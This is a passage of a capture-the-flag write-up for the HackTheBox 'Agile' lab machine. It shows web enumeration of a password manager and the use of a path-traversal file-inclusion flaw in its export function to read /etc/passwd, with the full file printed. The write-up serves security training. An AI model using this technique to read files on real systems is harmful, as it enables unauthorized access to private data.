 Here we have a SSH on port `22` and a http on port `80` redirecting to `http://superpass.htb`

After having added superpass.htb to my `/etc/hosts` file, I headed to the site.

### Web Enumeration

This is the home page:

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_home.png)

Let's create an account and see what it does.

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_vault.png)

It seems like a application for password management to me. The export button will export our saved passwords as a csv file and allow us to download the file. This function can be a flaw in the system if implemented poorly. We can intercept the request to gain understanding of this function.

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_export.png)

With the username `abc`, the file is generated under the form `USERNAME_export_RANDOMSTRING`. Let's try to get the /etc/passwd file with LFI.

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_lfi.png)

```bash
$cat superpass_export.csv 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```
